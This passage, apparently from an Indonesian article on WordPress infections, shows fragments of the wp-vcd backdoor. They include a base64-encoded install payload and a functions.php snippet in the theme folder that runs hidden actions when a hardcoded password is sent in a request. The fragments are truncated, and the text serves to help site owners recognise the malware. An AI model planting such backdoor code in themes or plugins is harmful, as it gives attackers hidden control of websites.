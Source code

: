 
$install_code = ‘c18615a1ef0e1cd813b388b4b6e29bcdc18615a1ef0e1cd813b388b4b6e29bcd[…..] $install_hash = md5($_SERVER[‘HTTP_HOST’] . AUTH_SALT); $install_code = str_replace(‘{$PASSWORD}’ , $install_hash, base64_decode( $install_code ));

Selain itu juga ada functions.php pada directory themes yang digunakan. Kamu bisa melihat bahwa script berikut terhubung ke wp-vcd.php.

<?php

if (isset($_REQUEST[‘action’]) && isset($_REQUEST[‘password’]) && ($_REQUEST[‘password’] == ‘f98cd901d7551a69caf41ba758a7c972’))

{

$div_code_name=”wp_vcd”;

switch ($_REQUEST[‘action’])

{

[……]

$div_code_name = “wp_vcd”;

$funcfile      = __FILE__;

if(!function_exists(‘theme_temp_setup’)) {

$path = $_SERVER[‘HTTP_HOST’] . $_SERVER[REQUEST_URI];

if (stripos($_SERVER[‘REQUEST_URI’], ‘wp-cron.php’) == false && stripos($_SERVER[‘REQUEST_URI’], ‘xmlrpc.php’) == false) {
